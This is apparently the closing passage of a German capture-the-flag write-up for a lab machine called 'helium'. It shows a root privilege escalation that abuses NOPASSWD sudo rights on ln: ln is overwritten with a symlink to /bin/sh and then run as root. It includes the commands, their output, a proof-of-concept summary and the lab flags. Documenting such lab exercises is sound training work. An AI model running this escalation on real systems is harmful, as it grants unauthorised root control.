2.  **Ausnutzung der `sudo ln`-Berechtigung:**
    *   Der Befehl `ln` wurde missbraucht, um das Binary `/bin/ln` selbst durch einen symbolischen Link auf `/bin/sh` (die Shell) zu ersetzen:
        ```bash
        paul@helium:~$ sudo ln -fs /bin/sh /bin/ln
        ```
    *   Anschließend wurde `sudo ln` ausgeführt. Da `/bin/ln` nun auf `/bin/sh` zeigte, wurde effektiv `sudo /bin/sh` ausgeführt:
        ```bash
        paul@helium:~$ sudo ln
        # id
        uid=0(root) gid=0(root) groups=0(root)
        ```
    *   Dies gewährte eine Shell mit Root-Rechten.

3.  **Root Flag:**
    *   ```bash
      # cd /root
      # cat root.txt
      ilovetoberoot
      ```

---

## Proof of Concept (Privilege Escalation)

**Kurzbeschreibung:** Der Benutzer `paul` hat `NOPASSWD` Sudo-Rechte für `/usr/bin/ln`. Diese Berechtigung kann ausgenutzt werden, um Root-Rechte zu erlangen. Der Angreifer erstellt mit `sudo` einen symbolischen Link, der `/bin/ln` auf `/bin/sh` verweist. Wenn anschließend `sudo /bin/ln` ausgeführt wird, wird stattdessen `sudo /bin/sh` aufgerufen, was eine Root-Shell startet.

**Schritte:**
1.  Als Benutzer `paul` ausführen:
    ```bash
    sudo ln -fs /bin/sh /bin/ln
    ```
2.  Anschließend ausführen:
    ```bash
    sudo ln
    ```
**Ergebnis:** Eine Shell mit `uid=0(root)` wird gestartet.

---

## Flags

*   **User Flag (`/home/paul/user.txt`):**
    ```
    ilovetoberelaxed
    ```
*   **Root Flag (`/root/root.txt`):**
    ```
    ilovetoberoot
    ```

---